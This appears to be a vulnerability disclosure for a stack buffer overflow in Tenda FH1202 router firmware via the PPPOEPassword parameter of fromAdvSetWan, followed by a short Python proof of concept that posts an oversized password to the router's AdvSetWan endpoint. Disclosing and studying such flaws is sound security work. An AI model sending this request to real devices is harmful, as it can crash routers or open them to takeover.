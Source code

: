 # Tenda FH1202 fromAdvSetWan
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the PPPOEPassword parameter in the fromAdvSetWan function.
### Vulnerability details
The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `PPPOEPassword` parameter from a POST request. The `PPPOEPassword` parameter serves as the first parameter of the decodePwd function, and the second parameter of the decodePwd function is the character array on the stack. String copy of decodePwd function leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `s` array, thus triggering this security vulnerability.
![](images/1.png)
![](images/2.png)
### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWan"

data = {
    "wanmode": "2",
    "PPPOEPassword": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```
